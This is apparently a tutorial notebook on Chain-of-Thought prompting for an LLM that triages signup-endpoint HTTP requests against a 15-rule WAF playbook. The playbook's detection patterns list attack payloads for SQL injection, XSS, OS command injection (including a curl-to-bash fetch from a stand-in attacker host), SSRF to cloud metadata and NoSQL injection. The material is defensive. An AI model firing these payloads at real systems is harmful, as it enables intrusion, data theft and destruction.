# Module 2 - Chain-of-Thought Prompting

---

## What you will be able to craft from this module:

- A real understanding of what Chain-of-Thought prompting is and why it produces better results than direct classification
- A WAF playbook built from real documented attack patterns, formatted so both humans and models can reason from it
- Your own CoT triage prompt, written from scratch, tested, and put in a production-like scenario against real HTTP requests
- A side-by-side comparison of direct classification vs zero-shot CoT vs guided CoT vs your own version
- Hands-on experience with a real security workflow that teams actually deal with today

---

## Before you start

Make sure you have the following requirements ready:
- Completed Modules 0 and 1, concepts here build directly on those
- Python 3.10+
- A free Groq API key from [console.groq.com](https://console.groq.com)
- A `.env` file in the root of the repo with `GROQ_API_KEY=gsk_...`
- Dependencies installed: `pip install -r requirements.txt` from the root file

---

# Inmersive experience in the field

I wanted to test a few things in this module, a real case scenario that you eventually will work on if you are in the field.

One security team manages a signup endpoint that receives multiple malicious requests in a daily basis.

A few months ago, the security team built a WAF playbook with 15 already identified and crafted rules covering the most common attack patterns in this workflow(SQL injection, XSS, bot automation, encoding bypasses, account abuse). Every rule has a description, what to look for in the raw request, and a final recommended action.

The playbook help to do the daily work and its a reliable source. But using it is slow.

To triage one request an analyst has to read the full HTTP payload, go through the relevant rules, match patterns and action on the signal. Give it 3-5 minutes per request when they're focused. During an active attack campaign, the queue wins.

The idea here is straightforward: the playbook already exists as documentation. A model that has been given this playbook and trained to reason through requests the same way an analyst would can do that triage in seconds, same work at scale.

That's what we're building in this module.

---

# What is Chain-of-Thought Prompting

In Module 0 we asked the model to classify directly: read this, give me a label. In Module 1 we added examples so the model had patterns to compare against. Both of those approaches ask the model to jump straight to an answer.

Chain-of-Thought is a little bit different. Instead of jumping to the answer, you ask the model to work through the problem step by step before giving you a final answer or action. You make the actual reasoning visible.

Visualize it like this:

**Without CoT:**
```
Prompt: Is this request malicious?
Request: {raw HTTP request}
Answer: malicious
```

**With CoT:**
```
Prompt: Analyze this request step by step.
Request: {raw HTTP request}
Answer:
  Step 1 | Headers: The User-Agent is python-requests/2.28, not a real browser.
  Step 2 | Fields: The referral_code field contains ' OR 1=1--, a classic SQL injection pattern.
  Step 3 | Pattern match: This matches WAF-01 (SQL Injection). High confidence.
  Step 4 | Verdict: malicious
  Step 5 | Action: BLOCK
```

Same model. Same input. Completely different output and more importantly, an output you can actually audit.

## Why does it actually work and how its applied in the real word?

Think about how the model actually generates text. Every token it generates is based on everything that came before it, the prompt, and every word it has already written. There's no separate thinking space happening in the background. The output is the thinking.

So when you ask a model to write out its reasoning before answering, something real happens. Those intermediate steps aren't just decoration, they become part of the context the model is building from. Each sentence it writes gives it better material for the next one. It's not a trick, it's just how the architecture works.

This is what Wei et al. (2022) actually demonstrated, that adding "let's think step by step" to a prompt measurably improved performance on reasoning tasks, with no retraining, no new model, nothing changed except the instruction to reason out loud first. That's a great and simple finding with a huge effect on models now.

## The 3 possible variants we'll use in this module

| Variant | What it looks like | When to use it |
|---|---|---|
| **Direct classification** | No reasoning, just a label | Baseline, simple and fast but shallow |
| **Zero-shot CoT** | Append "think step by step" | Quick improvement with no extra work |
| **Guided CoT** | You define the exact reasoning steps | Production, consistent, auditable, high accuracy |

We'll run all 3 on the same requests so you can see the difference.

## Where CoT breaks

It's worth knowing the failure modes before you deploy this anywhere:

- **Premise poisoning:** if the model makes a wrong assumption in step 1, that error compounds through every step that follows. The chain looks confident and coherent, but it's built on a bad foundation.
- **Hallucinated context:** the model may reference threat intelligence or patterns that aren't in your playbook. "This IP is associated with known APT activity" sounds authoritative but could be completely invented.
- **Verbose but shallow:** a long chain that restates the input in different words isn't reasoning, it's just elaboration. Real reasoning connects the input to new conclusions.
- **False confidence:** CoT chains often end with definitive verdicts even when the evidence only supports uncertainty. You can prompt for this explicitly, and we will.

---

# The Playbook

Before we touch any code, let's talk about where I found this playbook, because the process matters.

A few notes on how this was built:

I gathered the general WAF rule patterns that you'd actually encounter in global systems, from OWASP's Core Rule Set (CRS), OWASP Testing Guide, PortSwigger's Web Security Academy, and vendor WAF documentation from AWS, Azure, Cloudflare and Fortinet. Every rule is associated to a documented attack class with real payloads in the wild.

This is the part worth paying attention to, I used an AI model to help structure and document those rules into a consistent playbook format. Same information, clear descriptions, well documented patterns and recommended actions.

That's actually the workflow we're doing in this module: you can use AI to build the training material, and then use that same material to train the model to do the work. The documentation becomes the prompt.

The playbook has 15 rules across 5 families:

| Family | Rules | What it covers |
|---|---|---|
| A / Injection Attacks | WAF-01 to WAF-04 | SQL, XSS, command, NoSQL injection |
| B / Field & Input Abuse | WAF-05 to WAF-07 | Email manipulation, malformed input, SSRF |
| C / Automation & Bot Signals | WAF-08 to WAF-10 | Bot fingerprints, rate limit evasion, headless browsers |
| D / Evasion Techniques | WAF-11 to WAF-13 | Encoding bypass, obfuscation, header spoofing |
| E / Account Abuse Patterns | WAF-14 to WAF-15 | Enumeration, credential stuffing |

We'll inject this playbook directly into the model's context. That's the training mechanism, not fine-tuning, not retraining, just structured documentation in the prompt that the model can reason against.

---

# Setting up your lab

Same process: Groq for free and fast calls, the OpenAI-compatible SDK, and our `.env` file for the API key. If you've done modules 0 and 1 this will be familiar.

In [1]:
import os
import json
import time
import random
from pathlib import Path
from collections import Counter

from dotenv import load_dotenv

# Find repo root and load .env
notebook_dir = Path(os.getcwd())
repo_root = notebook_dir
while not (repo_root / ".env").exists() and repo_root != repo_root.parent:
    repo_root = repo_root.parent

load_dotenv(repo_root / ".env")

api_key = os.getenv("GROQ_API_KEY")
if not api_key:
    raise ValueError("GROQ_API_KEY not found in .env — make sure it's set before continuing")

print(f"✅ Groq API key loaded: {api_key[:8]}...")

✅ Groq API key loaded: gsk_wfQ9...


In [2]:
from openai import OpenAI

client = OpenAI(
    api_key=os.getenv("GROQ_API_KEY"),
    base_url="https://api.groq.com/openai/v1"
)

MODEL = "meta-llama/llama-4-scout-17b-16e-instruct"

# Set up data and figures directories for this module
data_dir = repo_root / "modules" / "02_chain_of_thought" / "data"
figures_dir = repo_root / "modules" / "02_chain_of_thought" / "figures"
data_dir.mkdir(parents=True, exist_ok=True)
figures_dir.mkdir(parents=True, exist_ok=True)

print(f"✅ Client ready — using model: {MODEL}")
print(f"   Data directory:    {data_dir.resolve()}")
print(f"   Figures directory: {figures_dir.resolve()}")

✅ Client ready — using model: meta-llama/llama-4-scout-17b-16e-instruct
   Data directory:    /Users/sebastianvargas/Documents/newlife/ai/projects/llm-prompting-labs/modules/02_chain_of_thought/data
   Figures directory: /Users/sebastianvargas/Documents/newlife/ai/projects/llm-prompting-labs/modules/02_chain_of_thought/figures


---

# Injecting the Playbook

The playbook is the main reference document the model will reason against. We define it here as a Python string and formatted so the model can parse clearly.

This is the full set of 15 rules. Try reading it, you're about to ask a model to reason from this, so you should understand it yourself first.

A few things to notice as you read:
- Each rule has a description of the threat, concrete patterns to look for and a recommended action
- The "what to look for" section is what the model will use as evidence during its reasoning chain
- Some rules overlap (encoding bypass + SQL injection together), that's intentional.

In [3]:
WAF_PLAYBOOK = """
WAF PLAYBOOK — SIGNUP ENDPOINT PROTECTION
==========================================
Version 1.0 | Internal Security WAF Playbook | Last Updated: 2026-05-26

This playbook contains 15 detection rules for the /api/v1/signup endpoint.
For each request: read headers and body, match against applicable rules,
identify triggered rule(s), assign confidence (high/medium/low), apply action.
If no rule matches, classify as CLEAN.

FAMILIES: A=Injection, B=Field Abuse, C=Automation, D=Evasion, E=Account Abuse

---
FAMILY A — INJECTION ATTACKS
---

WAF-01 | SQL Injection in Form Fields
Threat: Attacker injects SQL syntax to manipulate the backend database.
Targets: username, email, referral_code, any freetext field.
Patterns to detect:
  - Tautology patterns: ' OR '1'='1, ' OR 1=1--, admin'--
  - String termination probes: lone ' or " appended to normal values
  - Comment sequences: --, #, /* used to truncate queries
  - UNION extraction: ' UNION SELECT null,username,password FROM users--
  - Blind timing attacks: '; WAITFOR DELAY '0:0:5'--, ' AND SLEEP(5)--
  - Stacked queries: '; DROP TABLE users;--
  - JSON-based bypass: 1 OR JSON_EXTRACT('{"a":1}','$.a')=1
Confidence HIGH if multiple SQL keywords appear together (SELECT, UNION, FROM, WHERE, OR).
Confidence MEDIUM if only quote characters or comment sequences appear without keywords.
Action: BLOCK — return 403, log full request body.

WAF-02 | Cross-Site Scripting (XSS) in Freetext Fields
Threat: Attacker injects client-side script into fields rendered in a browser.
Targets: display_name, bio, username, referral_code (stored XSS risk).
Patterns to detect:
  - Script tag injection: <script>alert(1)</script>, <script src=https://evil.io/x.js>
  - Event handler injection: <img src=x onerror=alert(1)>, <svg onmouseover=alert(1)>
  - Javascript URI schemes: <a href="javascript:alert(1)">click</a>
  - String.fromCharCode obfuscation: <iframe src=# onmouseover=alert(String.fromCharCode(88,83,83))>
  - HTML entity encoded tags: &lt;script&gt;alert(1)&lt;/script&gt;
Confidence HIGH if HTML tags with event handlers or <script> present.
Confidence MEDIUM if only angle brackets appear without handlers.
Action: BLOCK — return 403, strip and log.

WAF-03 | OS Command Injection
Threat: Attacker embeds shell commands into fields that reach a system call or subprocess.
Targets: Any field passed to backend processing, file operations, or email generation.
Patterns to detect:
  - Shell metacharacters: ; | || && ` $(...)
  - Injection sequences: ; ls -la, | cat /etc/passwd, && whoami
  - Command substitution: `id`, $(id), $(curl https://attacker.io/shell.sh | bash)
  - Null byte injection: %00
Confidence HIGH if metacharacters appear alongside command names (cat, curl, wget, bash, id, whoami).
Confidence MEDIUM if only semicolons or pipes appear alone.
Action: BLOCK — escalate to senior analyst if payload includes outbound network commands.

WAF-04 | NoSQL Injection
Threat: Attacker injects NoSQL operators to manipulate document database queries.
Targets: email, username fields passed to MongoDB or similar.
Patterns to detect:
  - MongoDB operators in JSON: {"$gt": ""}, {"$ne": null}, {"$regex": ".*"}, {"$where": "sleep(5000)"}
  - Operator injection in form strings: username[$ne]=admin, email[$gt]=
  - JavaScript execution via $where: {"$where": "function() { return true; }"}
  - Array injection where scalar expected
Confidence HIGH if MongoDB operators ($gt, $ne, $regex, $where, $in) appear inside field values.
Confidence MEDIUM if bracket notation appears in field names.
Action: BLOCK — note specific operator used, $where indicates higher risk.

---
FAMILY B — FIELD AND INPUT ABUSE
---

WAF-05 | Email Field Manipulation
Threat: Three patterns — CRLF injection for spam relay, disposable domains for throwaway accounts,
        subaddressing abuse to bypass duplicate-email checks.
Patterns to detect:
  - CRLF injection: user@domain.com\r\nBcc: victim@target.com, %0d%0a in email field
  - Disposable domains: mailinator.com, guerrillamail.com, 10minutemail.com, temp-mail.org
  - Subaddressing at volume: user+1@gmail.com, user+2@gmail.com across many requests
  - Null byte: user@domain.com%00
Confidence HIGH for CRLF — no legitimate use. MEDIUM for disposable domains.
Action: CRLF=BLOCK. Disposable domain=FLAG_FOR_REVIEW. Subaddressing at volume=RATE_LIMIT.

WAF-06 | Malformed and Oversized Input
Threat: Abnormally long, malformed, or specially encoded values probe for buffer overflows,
        bypass length filters, or trigger parser errors. Common precursor to targeted attacks.
Patterns to detect:
  - Field values exceeding normal bounds (username >256 chars, password >512 chars)
  - Null bytes embedded in values: username\x00admin, pass%00word
  - Non-printable or control characters in alphanumeric fields
  - Repeated special characters suggesting fuzzing: aaaaa..., '''''', >>>>>>>>
  - Double URL encoding: %2527 (double-encoded single quote), %253C (double-encoded <)
Confidence HIGH for null bytes or binary characters. HIGH for fields dramatically over length limit.
MEDIUM for very long passwords — password managers legitimately generate 64+ char strings.
Action: BLOCK for null bytes and binary. FLAG_FOR_REVIEW for oversized fields.

WAF-07 | SSRF via URL-Accepting Fields
Threat: Attacker supplies a URL pointing to internal infrastructure in a field the server fetches.
Targets: profile_picture_url, website — any field the application fetches server-side.
Patterns to detect:
  - Internal IP ranges: http://127.0.0.1/, http://localhost/, http://10.0.0.1/, http://192.168.x.x/
  - Cloud metadata: http://169.254.169.254/latest/meta-data/ (AWS), http://metadata.google.internal/ (GCP)
  - Non-HTTP schemes: file:///etc/passwd, ftp://internal, gopher://, dict://
  - IP representation bypass: http://0x7f000001/, http://2130706433/ (decimal for 127.0.0.1), http://127.1/
Confidence HIGH for internal IPs, metadata endpoints, non-HTTP schemes — no legitimate use.
Action: BLOCK immediately. Never fetch user-supplied URLs without a validated allowlist.

---
FAMILY C — AUTOMATION AND BOT SIGNALS
---

WAF-08 | Automated Signup Fingerprint
Threat: Bots submitting fake accounts exhibit behavioral patterns different from real users.
Patterns to detect:
  - Non-browser User-Agent: python-requests/2.28.0, axios/, Go-http-client, curl/
  - Submission timing under 3 seconds from page load (humans need 10-30s minimum)
  - Sequential or patterned data: user0001/user0002, aaa@test.com/aab@test.com
  - Missing Accept-Language or Accept-Encoding — always present in real browsers
  - Identical Content-Length across many requests — real users produce variable-length submissions
Confidence HIGH if User-Agent is a scripting library or timing is sub-3s.
MEDIUM if only one signal present — combine signals before acting.
Action: FLAG_FOR_REVIEW for single signals. BLOCK or CHALLENGE when two or more co-occur.

WAF-09 | Rate Limit Evasion
Threat: Attackers distribute requests across many IPs or manipulate IP headers to bypass rate limiting.
Patterns to detect:
  - X-Forwarded-For manipulation: forged IP to bypass rate limits, especially private/loopback IPs
  - Multiple X-Forwarded-For values: 8.8.8.8, 192.168.1.1 — attacker prepends fake IPs
  - X-Real-IP or True-Client-IP spoofing to confuse WAF IP identification
  - Rapid IP rotation across same /24 subnet, especially datacenter/hosting ASN ranges
  - Perfectly consistent request intervals suggesting programmatic pacing
Confidence HIGH if X-Forwarded-For contains private or loopback IPs (127.0.0.1, 10.x.x.x).
MEDIUM for multiple forwarded IPs — common with legitimate CDN setups.
Action: FLAG_FOR_REVIEW for single anomalies. RATE_LIMIT at ASN/subnet level for rotation patterns.

WAF-10 | Headless Browser and Scripted Client Fingerprint
Threat: Sophisticated bots use headless browsers that execute JavaScript but leave subtle fingerprints.
Patterns to detect:
  - Known automation User-Agents: HeadlessChrome, Selenium, PhantomJS, Playwright, puppeteer
  - Missing Sec-Fetch-* headers: real browsers always send Sec-Fetch-Site, Sec-Fetch-Mode, Sec-Fetch-Dest
  - Missing Sec-CH-UA on requests claiming to be Chrome 90+
  - Accept header mismatches: claiming to be Firefox but sending Accept: */* (Python requests default)
  - No cookies on signup POST — real browsers would have a session cookie from loading the page
Confidence HIGH if Sec-Fetch-* absent on a modern browser claim, or headless strings in UA.
MEDIUM if only one mismatch present.
Action: CHALLENGE with JavaScript proof-of-work or CAPTCHA. BLOCK if challenge fails.

---
FAMILY D — EVASION TECHNIQUES
---

WAF-11 | Encoding Bypass Attempts
Threat: Attacker encodes malicious payloads to bypass signature-based detection.
Patterns to detect:
  - URL encoding of attack chars: %27 ('), %3C/<, %3E/>, %22/", %3B/;
  - Double URL encoding: %2527 (double-encoded '), %253C (double-encoded <)
  - HTML entity encoding in JSON: &lt;script&gt;, &#x3C;script&#x3E;, &#60;script&#62;
  - Unicode normalization abuse: fullwidth angle brackets (U+FF1C/FF1E)
  - Mixed encoding: %3C&#115;cript%3E
  - Null byte to truncate pattern matching: <scr%00ipt>
Confidence HIGH when encoded sequences decode to known injection patterns.
MEDIUM when encoding present but decoded value is benign.
Action: DECODE THEN RE-EVALUATE — apply URL decode, HTML entity decode, Unicode normalization.
        BLOCK if decoded payload matches any injection rule.

WAF-12 | Payload Obfuscation via Comment and Whitespace
Threat: SQL and scripting languages allow comments and whitespace to fragment attack strings
        that WAF signatures look for as contiguous sequences.
Patterns to detect:
  - SQL comment insertion: SE/**/LECT, UN/**/ION, OR/**/1=1
  - MySQL version-specific comments: /*!SELECT*/, /*!50000SELECT*/
  - Whitespace variations: tab (\t), newlines (\n), multiple spaces between SQL keywords
  - Case variation to bypass case-sensitive matchers: SeLeCt, uNiOn, oR 1=1
  - JavaScript comment fragmentation: <scr<!---->ipt>
  - Mixed case HTML: <ScRiPt>, <IMG SRC=x OnErRoR=alert(1)>
Confidence HIGH when comment sequences appear inside SQL keywords or HTML tags.
MEDIUM for pure case variation alone.
Action: NORMALIZE (strip comments, collapse whitespace, lowercase) then RE-EVALUATE.
        BLOCK if normalized payload matches WAF-01, WAF-02, or WAF-03.

WAF-13 | User-Agent and Header Spoofing
Threat: Attackers manipulate headers to misrepresent the client, bypass browser detection,
        or probe for header-parsing vulnerabilities.
Patterns to detect:
  - Spoofed browser UA with inconsistent supporting headers (Chrome 120 without Sec-CH-UA)
  - Known scanner/tool strings: sqlmap/1.x, Nikto, masscan, nuclei, dirbuster, wfuzz
  - Security tool strings: BurpSuite, OWASP ZAP, python-requests, Go-http-client, axios/
  - Referer pointing to internal hostnames: http://internal-admin.company.local/dashboard
  - Unusual X- headers not part of expected request shape
  - Excessively long User-Agent strings probing for buffer overflows
Confidence HIGH for known scanner/exploit tool strings — never in legitimate browser traffic.
HIGH for Referer pointing to internal hostnames.
Action: BLOCK for known scanner UAs. FLAG_FOR_REVIEW for spoofed browser UAs.

---
FAMILY E — ACCOUNT ABUSE PATTERNS
---

WAF-14 | Account Enumeration via Signup Response Probing
Threat: Attacker submits requests with varied emails to determine which accounts already exist,
        building a confirmed account list for targeted follow-up attacks.
Patterns to detect:
  - High-velocity submissions with varied emails but identical other fields
  - Sequential email patterns: a@test.com, b@test.com or user1@domain.com, user2@domain.com
  - Resubmission of the same address to probe for information leakage in error messages
  - Deliberate timing analysis: submitting same email twice and measuring response time difference
Confidence HIGH when same non-email fields repeat exactly across many requests, only email varies.
LOW for a single resubmission — users accidentally submit twice often.
Action: RATE_LIMIT at session and IP level. FLAG_FOR_REVIEW above 10 unique emails/minute.

WAF-15 | Credential Stuffing Pattern on Password Field
Threat: Attacker uses breached email-password pairs to register accounts or probe password policy.
Patterns to detect:
  - Passwords matching top breach lists at high velocity across many accounts
  - Different emails but passwords drawn from a small, recognizable set
  - Breach list structure: FirstnameYear!, CompanyName123, Password1!, Welcome123
  - Abnormally low password entropy across requests in the same session window
  - Same exact email-password pair appearing across multiple IPs in short window
Confidence HIGH when passwords across many requests match known top-breach patterns.
MEDIUM for a single common password — many legitimate users choose weak passwords.
Action: CHALLENGE (CAPTCHA or email verification) rather than hard block.
        RATE_LIMIT aggressively on velocity. Log pairs for breach intelligence correlation.
"""

print(f"✅ Playbook loaded")
print(f"   Length: {len(WAF_PLAYBOOK)} characters, {len(WAF_PLAYBOOK.splitlines())} lines")
print(f"   Rules defined: WAF-01 through WAF-15 across 5 families")

✅ Playbook loaded
   Length: 13103 characters, 224 lines
   Rules defined: WAF-01 through WAF-15 across 5 families


In [4]:
# Instead of injecting all 13k chars of playbook for every call, we split it into 5 family sections and route each request to the relevant family first. 
# The classifier then gets full rule details for only the rules that actually apply, same content, = token savings
# And if you think about it this is also how an analyst works: you don't re-read all 15 rules every time. You scan the request, identify what kind of attack it looks like, and reach for the relevant section of the playbook.

PLAYBOOK_FAMILIES = {
    "A": """
FAMILY A | INJECTION ATTACKS

WAF-01 | SQL Injection in Form Fields
Threat: Attacker injects SQL syntax to manipulate the backend database.
Targets: username, email, referral_code, any freetext field.
Patterns to detect:
  - Tautology patterns: ' OR '1'='1, ' OR 1=1--, admin'--
  - String termination probes: lone ' or " appended to normal values
  - Comment sequences: --, #, /* used to truncate queries
  - UNION extraction: ' UNION SELECT null,username,password FROM users--
  - Blind timing attacks: '; WAITFOR DELAY '0:0:5'--, ' AND SLEEP(5)--
  - Stacked queries: '; DROP TABLE users;--
  - JSON-based bypass: 1 OR JSON_EXTRACT('{"a":1}','$.a')=1
Confidence HIGH if multiple SQL keywords appear together (SELECT, UNION, FROM, WHERE, OR).
Confidence MEDIUM if only quote characters or comment sequences appear without keywords.
Action: BLOCK — return 403, log full request body.

WAF-02 | Cross-Site Scripting (XSS) in Freetext Fields
Threat: Attacker injects client-side script into fields rendered in a browser.
Targets: display_name, bio, username, referral_code (stored XSS risk).
Patterns to detect:
  - Script tag injection: <script>alert(1)</script>
  - Event handler injection: <img src=x onerror=alert(1)>, <svg onmouseover=alert(1)>
  - Javascript URI schemes: <a href="javascript:alert(1)">click</a>
  - String.fromCharCode obfuscation
  - HTML entity encoded tags: &lt;script&gt;alert(1)&lt;/script&gt;
Confidence HIGH if HTML tags with event handlers or <script> present.
Confidence MEDIUM if only angle brackets appear without handlers.
Action: BLOCK — return 403, strip and log.

WAF-03 | OS Command Injection
Threat: Attacker embeds shell commands into fields that reach a system call or subprocess.
Patterns to detect:
  - Shell metacharacters: ; | || && ` $(...)
  - Injection sequences: ; ls -la, | cat /etc/passwd, && whoami
  - Command substitution: `id`, $(id), $(curl https://attacker.io/shell.sh | bash)
  - Null byte injection: %00
Confidence HIGH if metacharacters appear alongside command names (cat, curl, wget, bash, id, whoami).
Confidence MEDIUM if only semicolons or pipes appear alone.
Action: BLOCK — escalate to senior analyst if payload includes outbound network commands.

WAF-04 | NoSQL Injection
Threat: Attacker injects NoSQL operators to manipulate document database queries.
Targets: email, username fields passed to MongoDB or similar.
Patterns to detect:
  - MongoDB operators in JSON: {"$gt": ""}, {"$ne": null}, {"$regex": ".*"}, {"$where": "sleep(5000)"}
  - Operator injection in form strings: username[$ne]=admin, email[$gt]=
  - JavaScript execution via $where: {"$where": "function() { return true; }"}
  - Array injection where scalar expected
Confidence HIGH if MongoDB operators ($gt, $ne, $regex, $where, $in) appear inside field values.
Confidence MEDIUM if bracket notation appears in field names.
Action: BLOCK — note specific operator used, $where indicates higher risk.
""",

    "B": """
FAMILY B | FIELD AND INPUT ABUSE

WAF-05 | Email Field Manipulation
Threat: CRLF injection for spam relay, disposable domains for throwaway accounts,
        subaddressing abuse to bypass duplicate-email checks.
Patterns to detect:
  - CRLF injection: user@domain.com\\r\\nBcc: victim@target.com, %0d%0a in email field
  - Disposable domains: mailinator.com, guerrillamail.com, 10minutemail.com, temp-mail.org
  - Subaddressing at volume: user+1@gmail.com, user+2@gmail.com across many requests
  - Null byte: user@domain.com%00
Confidence HIGH for CRLF — no legitimate use. MEDIUM for disposable domains.
Action: CRLF=BLOCK. Disposable domain=FLAG_FOR_REVIEW. Subaddressing at volume=RATE_LIMIT.

WAF-06 | Malformed and Oversized Input
Threat: Abnormally long, malformed, or encoded values probe for buffer overflows or parser errors.
Patterns to detect:
  - Field values exceeding normal bounds (username >256 chars, password >512 chars)
  - Null bytes embedded in values: username\\x00admin, pass%00word
  - Non-printable or control characters in alphanumeric fields
  - Repeated special characters suggesting fuzzing: aaaaa..., '''''', >>>>>>>>
  - Double URL encoding: %2527 (double-encoded single quote), %253C (double-encoded <)
Confidence HIGH for null bytes or binary characters. HIGH for fields dramatically over length.
MEDIUM for very long passwords — password managers legitimately generate 64+ char strings.
Action: BLOCK for null bytes and binary. FLAG_FOR_REVIEW for oversized fields.

WAF-07 | SSRF via URL-Accepting Fields
Threat: Attacker supplies internal infrastructure URL in a field the server fetches.
Targets: profile_picture_url, website — any field the application fetches server-side.
Patterns to detect:
  - Internal IP ranges: http://127.0.0.1/, http://localhost/, http://10.0.0.1/, http://192.168.x.x/
  - Cloud metadata: http://169.254.169.254/latest/meta-data/ (AWS), http://metadata.google.internal/ (GCP)
  - Non-HTTP schemes: file:///etc/passwd, ftp://internal, gopher://, dict://
  - IP representation bypass: http://0x7f000001/, http://2130706433/, http://127.1/
Confidence HIGH for internal IPs, metadata endpoints, non-HTTP schemes.
Action: BLOCK immediately. Never fetch user-supplied URLs without a validated allowlist.
""",

    "C": """
FAMILY C | AUTOMATION AND BOT SIGNALS

WAF-08 | Automated Signup Fingerprint
Threat: Bots submitting fake accounts exhibit behavioral patterns different from real users.
Patterns to detect:
  - Non-browser User-Agent: python-requests/2.28.0, axios/, Go-http-client, curl/
  - Sequential or patterned data: user0001/user0002, aaa@test.com/aab@test.com
  - Missing Accept-Language or Accept-Encoding — always present in real browsers
  - Identical Content-Length across many requests
Confidence HIGH if User-Agent is a scripting library. MEDIUM if only one signal present.
Action: FLAG_FOR_REVIEW for single signals. BLOCK or CHALLENGE when two or more co-occur.

WAF-09 | Rate Limit Evasion
Threat: Attackers manipulate IP headers to bypass rate limiting.
Patterns to detect:
  - X-Forwarded-For with private/loopback IPs: 127.0.0.1, 10.x.x.x, 192.168.x.x
  - Multiple chained X-Forwarded-For values with mixed real/fake IPs
  - X-Real-IP or True-Client-IP spoofing
  - Perfectly consistent request intervals suggesting programmatic pacing
Confidence HIGH if X-Forwarded-For contains private or loopback IPs.
MEDIUM for multiple forwarded IPs — common with legitimate CDN setups.
Action: FLAG_FOR_REVIEW for single anomalies. RATE_LIMIT at ASN/subnet level for rotation.

WAF-10 | Headless Browser and Scripted Client Fingerprint
Threat: Sophisticated bots use headless browsers that leave subtle fingerprints.
Patterns to detect:
  - Known automation User-Agents: HeadlessChrome, Selenium, PhantomJS, Playwright, puppeteer
  - Missing Sec-Fetch-* headers on requests claiming to be a modern browser
  - Missing Sec-CH-UA on requests claiming to be Chrome 90+
  - Accept header mismatches: claiming Firefox but sending Accept: */*
  - No cookies on signup POST — real browsers carry a session cookie from page load
Confidence HIGH if Sec-Fetch-* absent on modern browser claim, or headless strings in UA.
MEDIUM if only one mismatch present.
Action: CHALLENGE with JavaScript proof-of-work or CAPTCHA. BLOCK if challenge fails.
""",

    "D": """
FAMILY D | EVASION TECHNIQUES

WAF-11 | Encoding Bypass Attempts
Threat: Attacker encodes malicious payloads to bypass signature-based detection.
Patterns to detect:
  - URL encoding of attack chars: %27 ('), %3C/<, %3E/>, %22/", %3B/;
  - Double URL encoding: %2527 (double-encoded '), %253C (double-encoded <)
  - HTML entity encoding in JSON: &lt;script&gt;, &#x3C;script&#x3E;
  - Unicode normalization abuse: fullwidth angle brackets (U+FF1C/FF1E)
  - Null byte to truncate pattern matching: <scr%00ipt>
Confidence HIGH when encoded sequences decode to known injection patterns.
MEDIUM when encoding present but decoded value is benign.
Action: DECODE THEN RE-EVALUATE. BLOCK if decoded payload matches any injection rule.

WAF-12 | Payload Obfuscation via Comment and Whitespace
Threat: Comments and whitespace fragment attack strings that WAF signatures look for.
Patterns to detect:
  - SQL comment insertion: SE/**/LECT, UN/**/ION, OR/**/1=1
  - MySQL version-specific comments: /*!SELECT*/, /*!50000SELECT*/
  - Whitespace variations: tab, newlines, multiple spaces between SQL keywords
  - Case variation: SeLeCt, uNiOn, oR 1=1
  - JavaScript comment fragmentation: <scr<!---->ipt>
  - Mixed case HTML: <ScRiPt>, <IMG SRC=x OnErRoR=alert(1)>
Confidence HIGH when comment sequences appear inside SQL keywords or HTML tags.
MEDIUM for pure case variation alone.
Action: NORMALIZE then RE-EVALUATE. BLOCK if normalized payload matches WAF-01/02/03.

WAF-13 | User-Agent and Header Spoofing
Threat: Attackers manipulate headers to misrepresent the client or probe for vulnerabilities.
Patterns to detect:
  - Spoofed browser UA with inconsistent supporting headers (Chrome 120 without Sec-CH-UA)
  - Known scanner/tool strings: sqlmap/1.x, Nikto, masscan, nuclei, dirbuster, wfuzz
  - Security tool strings: BurpSuite, OWASP ZAP, python-requests, Go-http-client, axios/
  - Referer pointing to internal hostnames: http://internal-admin.company.local/dashboard
  - Excessively long User-Agent strings probing for buffer overflows
Confidence HIGH for known scanner/exploit tool strings.
HIGH for Referer pointing to internal hostnames.
Action: BLOCK for known scanner UAs. FLAG_FOR_REVIEW for spoofed browser UAs.
""",

    "E": """
FAMILY E | ACCOUNT ABUSE PATTERNS

WAF-14 | Account Enumeration via Signup Response Probing
Threat: Attacker probes which accounts already exist by analyzing responses to varied emails.
Patterns to detect:
  - High-velocity submissions with varied emails but identical other fields
  - Sequential email patterns: a@test.com, b@test.com or user1@domain.com, user2@domain.com
  - Resubmission of the same address to probe for information leakage in error messages
Confidence HIGH when same non-email fields repeat exactly across many requests.
LOW for a single resubmission — users accidentally submit twice often.
Action: RATE_LIMIT at session and IP level. FLAG_FOR_REVIEW above 10 unique emails/minute.

WAF-15 | Credential Stuffing Pattern on Password Field
Threat: Attacker uses breached email-password pairs to register accounts or probe password policy.
Patterns to detect:
  - Passwords matching top breach lists at high velocity: Password1!, Welcome123, Qwerty123!
  - Different emails but passwords drawn from a small, recognizable set
  - Abnormally low password entropy across requests in the same session window
  - Same exact email-password pair appearing across multiple IPs in short window
Confidence HIGH when passwords across many requests match known top-breach patterns.
MEDIUM for a single common password — many legitimate users choose weak passwords.
Action: CHALLENGE (CAPTCHA or email verification). RATE_LIMIT aggressively on velocity.
"""
}

FAMILY_ROUTING_SYSTEM = """You are a WAF pre-filter. Given an HTTP request, identify which
attack family is most likely present based on headers and body content.

Families:
  A = Injection Attacks (SQL, XSS, command injection, NoSQL)
  B = Field and Input Abuse (email manipulation, malformed input, SSRF via URL fields)
  C = Automation and Bot Signals (bot fingerprint, rate limit evasion, headless browser)
  D = Evasion Techniques (encoding bypass, obfuscation, header spoofing)
  E = Account Abuse (enumeration, credential stuffing)

Respond with ONLY a valid JSON object:
{
  "families": ["A"],
  "reason": "one sentence explaining which signals pointed to this family"
}
families must be a list. Include all families that could apply, ordered by likelihood.
If the request looks completely clean, return {"families": ["NONE"], "reason": "no attack signals"}"""


def route_to_family(request: dict) -> list:
    """Fast pre-filter: identify which playbook family applies to this request."""
    response = client.chat.completions.create(
        model=MODEL,
        messages=[
            {"role": "system", "content": FAMILY_ROUTING_SYSTEM},
            {"role": "user",   "content": json.dumps(request, indent=2)}
        ],
        temperature=0,
        max_tokens=80,
    )
    raw = response.choices[0].message.content.strip()
    if "```" in raw:
        raw = raw.split("```")[1]
        if raw.startswith("json"): raw = raw[4:]
    try:
        result = json.loads(raw.strip())
        families = result.get("families", ["A","B","C","D","E"])
        return families
    except:
        return ["A","B","C","D","E"]  # fallback | include all families


def build_focused_playbook(families: list) -> str:
    """Return only the playbook sections relevant to the identified families."""
    if families == ["NONE"]:
        return "No specific attack family identified. Classify as CLEAN unless evidence says otherwise."
    sections = [PLAYBOOK_FAMILIES[f] for f in families if f in PLAYBOOK_FAMILIES]
    return "\n".join(sections)


# Verify family sizes so you can see the token reduction
